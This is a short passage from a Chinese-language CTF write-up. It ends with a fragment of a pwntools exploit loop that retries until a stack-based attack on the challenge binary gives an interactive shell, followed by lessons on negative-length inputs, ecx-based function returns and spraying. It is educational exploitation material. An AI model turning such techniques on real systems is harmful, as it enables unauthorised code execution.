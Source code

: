 ```python
        p.recvuntil('- ok lets allocate a buffer of length -80\n\n')
        p.recvuntil('what the f...??? how did you messed this buffer????\n')
        p.sendline('ls')
        print(p.recv(1024))
        p.interactive()
        break
    except:
       p.close()
       continue
```
由于 stack 空间地址随机，需要多试几次才能成功。

 
## 总结
- 输入一定要考虑输负数会发生什么
- 对于每个函数，必须要看它的汇编代码，看看它是如何返回的，有些利用了 `ecx` 这些寄存器，就有可能有漏洞
- Spray 思想要想到
